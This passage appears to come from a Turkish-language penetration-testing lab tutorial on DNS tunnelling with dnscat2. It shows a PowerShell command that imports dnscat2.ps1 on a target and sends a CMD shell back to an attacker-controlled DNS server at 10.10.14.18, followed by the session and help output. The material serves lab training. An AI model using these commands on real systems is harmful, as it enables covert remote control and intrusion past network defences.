 dnscat2.ps1 dosyası hedefe yerleştirildikten sonra dosyayı içe aktarabilir ve ilgili cmd-let'leri çalıştırabiliriz.


#### Importing dnscat2.ps1

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

dnscat2.ps1 içe aktarıldıktan sonra, atak hostumuzda çalışan sunucu ile bir tünel kurmak için kullanabiliriz. Sunucumuza bir CMD shell oturumunu geri gönderebiliriz.

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

Oturumumuzun kurulmasını ve şifrelenmesini sağlamak için sunucuda oluşturulan ön paylaşımlı gizli bilgiyi (-PreSharedSecret) kullanmalıyız. Tüm adımlar başarıyla tamamlanırsa, sunucumuzla bir oturum kurulduğunu göreceğiz.


### Oturum Kuruluşunun Onaylanması
```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

Komut istemine ? yazarak dnscat2 ile sahip olduğumuz seçenekleri listeleyebiliriz.


### dnscat2 Seçeneklerini Listeleme

```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```

Dnscat2'yi oturumlarla etkileşime geçmek ve etkileşimlerde hedef ortamda daha ileri gitmek için kullanabiliriz. Bu modülde dnscat2 ile ilgili tüm olasılıkları ele almayacağız, ancak onunla pratik yapmanız ve hatta bir etkileşimde kullanmak için yaratıcı yollar bulmanız şiddetle tavsiye edilir. Kurduğumuz oturumla etkileşime geçelim ve bir shell'e girelim.

